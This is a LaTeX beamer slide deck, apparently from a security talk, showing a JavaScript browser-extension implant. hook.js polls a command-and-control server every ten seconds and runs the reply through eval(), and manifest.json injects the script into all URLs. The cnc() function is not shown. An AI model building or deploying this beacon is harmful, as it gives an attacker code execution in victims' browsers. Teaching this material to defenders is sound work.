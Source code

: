 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{Getting them hooked}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function sleep(ms) {
	      try {
		    return new Promise(resolve => setTimeout(resolve, ms));
	      } catch(error){
		    return false;
	      }
        }

        async function hook(){                   //Async hook to run in background in loop
          try {
            let data = {};                       //Any data you like here
            for (;;){
              cnc(data, function(responseText){
                eval(responseText);              //Execute the command sent back by CnC server
                return true;
              });
              await sleep(10000);                //Sleep for 10s
            }
          } catch(error){
            return false;
          }
        }
        
        hook();
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{The Manifesto}
  \begin{center}
    \begin{tcolorbox}[title=manifest.json,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        {
          "matches":[
            "<all_urls>"
          ],
          "js": [
            "hook.js"
          ]
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
